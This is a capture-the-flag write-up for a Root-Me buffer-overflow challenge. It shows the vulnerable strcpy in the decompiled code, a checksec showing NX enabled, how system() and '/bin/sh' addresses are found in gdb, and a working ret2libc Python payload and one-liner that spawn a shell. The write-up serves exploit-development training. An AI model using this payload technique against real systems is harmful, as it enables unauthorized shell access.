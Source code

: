 ### S0lv3d by H4yicl3

First i download binary file with my scp-script
```
#!/bin/sh
echo "password = app-systeme-$1"
scp -P2222 app-systeme-$1@challenge02.root-me.org:./$1 ./

then ./scp [name_of_challenge]
```
I use IDA to analysis the code.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@2
  int v4; // [sp+1Ch] [bp-14h]@3      //overflow this v4

  if ( argc == 2 )
  {
    strcpy((char *)&v4, argv[1]);      //bug here
    printf("Your message: %s\n", &v4);
    result = 0;
  }
  else
  {
    printf("Usage: %s <message>\n", *argv);
    result = -1;
  }
  return result;
}
```
This is normal buffer overflow program !!
but then i use gdb-peda to check
```
gdb -q ch33
Reading symbols from ch33...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
The Flag NX enabled !! That mean we can't write shell code in stack and use shell under environtment variable like before
So what we can do !! Ret2lib -> that is hint of this challenge

Ret2lib mean we pointed return address to the code line (system("/bin/sh")! you know?
if not !! you should google to get more information 

So we use gdb to find the address of system address of /bin/sh ...!! blahblah
```
gdp-peda$ b *main
gdp-peda$ r
gdb-peda$ p &system
$1 = (<text variable, no debug info> *) 0xf7e51310 <system>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f7184c ("/bin/sh")
gdb-peda$ 
```
>we had address system is 0xf7e51310 and /bin/sh is 0xf7f7184c 
try to write a script look like
```python
padding ="A"*32
system="\x10\x13\xe5\xf7"
retn_after="AAAA"
binsh="\x4c\x18\xf7\xf7"
print padding + system + retn_after + binsh
```
why i used system + retn_after + binsh
because when we called system we need input one address let it return after did some stuff !! you know !! 
run it maybe!!
```
./ch33 $(python ch33.py)
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAL?��
$ whoami
hayicle
$ 
```
We controled the shell !! GLHF!!

the script i use in sever
```
./ch33 $(python -c 'print "A"*32 + "\xb0\x90\xe6\xb7"+"AAAA"+"\x40\xac\xf8\xb7"')
```
